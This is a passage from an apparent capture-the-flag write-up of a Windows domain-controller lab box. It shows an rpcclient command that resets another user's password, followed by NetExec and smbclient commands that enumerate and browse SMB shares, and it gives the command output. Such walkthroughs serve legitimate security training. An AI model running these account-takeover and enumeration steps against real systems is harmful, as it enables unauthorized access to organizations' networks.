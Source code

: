 [BloodyAD](https://github.com/CravateRouge/bloodyAD) failed because TCP/389 is closed, but we managed to do it via RPC as follows.

```bash
rpcclient -U 'blackfield.local\\support%<REDACTED>' 10.129.229.17

rpcclient $> setuserinfo2 audit2020 23 Dusk3d123!

rpcclient $> quit
```

*NetExec* validated the credentials and discovered read access to *forensic*, the other non-default SMB share.

```bash
netexec smb 10.129.229.17 -u "audit2020" -p 'Dusk3d123!' --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:Dusk3d123! 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share
```

# Lateral Movement 2

The share contains some directories of interest.

```bash
smbclient -U blackfield.local\\audit2020%'Dusk3d123!' //10.129.229.17/forensic -c ls
  .                                   D        0  Sun Feb 23 13:03:16 2020
  ..                                  D        0  Sun Feb 23 13:03:16 2020
  commands_output                     D        0  Sun Feb 23 18:14:37 2020
  memory_analysis                     D        0  Thu May 28 21:28:33 2020
  tools                               D        0  Sun Feb 23 13:39:08 2020

                5102079 blocks of size 4096. 1694052 blocks available
```

My eyes rolled back when I saw  *domain_admins.txt* on my screen XDD.

```bash
smbclient -U blackfield.local\\audit2020%'Dusk3d123!' //10.129.229.17/forensic -c "ls commands_output/"
  .                                   D        0  Sun Feb 23 18:14:37 2020
  ..                                  D        0  Sun Feb 23 18:14:37 2020
  domain_admins.txt                   A      528  Sun Feb 23 13:00:19 2020
  domain_groups.txt                   A      962  Sun Feb 23 12:51:52 2020
  domain_users.txt                    A    16454  Fri Feb 28 22:32:17 2020
  firewall_rules.txt                  A   518202  Sun Feb 23 12:53:58 2020
  ipconfig.txt                        A     1782  Sun Feb 23 12:50:28 2020
  netstat.txt                         A     3842  Sun Feb 23 12:51:01 2020
  route.txt                           A     3976  Sun Feb 23 12:53:01 2020
  systeminfo.txt                      A     4550  Sun Feb 23 12:56:59 2020
  tasklist.txt                        A     9990  Sun Feb 23 12:54:29 2020

                5102079 blocks of size 4096. 1693972 blocks available
```